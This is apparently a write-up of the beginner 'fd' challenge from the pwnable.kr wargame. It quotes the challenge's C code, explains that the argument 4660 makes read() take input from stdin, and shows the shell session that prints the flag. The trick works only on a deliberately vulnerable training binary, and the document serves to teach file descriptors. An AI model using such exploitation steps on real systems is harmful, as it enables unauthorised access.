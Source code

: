 # Description
Mommy! what is a file descriptor in Linux?

* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link: https://www.youtube.com/watch?v=blAxTfcW9VU

ssh fd@pwnable.kr -p2222 (pw:guest)

# Exploitation
```
int fd = atoi( argv[1] ) - 0x1234;
int len = 0;
len = read(fd, buf, 32);
if(!strcmp("LETMEWIN\n", buf)){
  printf("good job :)\n");
  system("/bin/cat flag");
  exit(0);
}
```
In `fd.c`, Asks you know fd or not, It sets fd with (argv[1] - 0x1234).

And It calls read function with the fd option.

To read buf 32bytes successfully, I have to set fd to 0.

It means (atoi(argv[1]) - 0x1234) must be 0.

0x1234 is 4660(10).

# Payload
```
fd@ubuntu:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
fd@ubuntu:~$ 
```
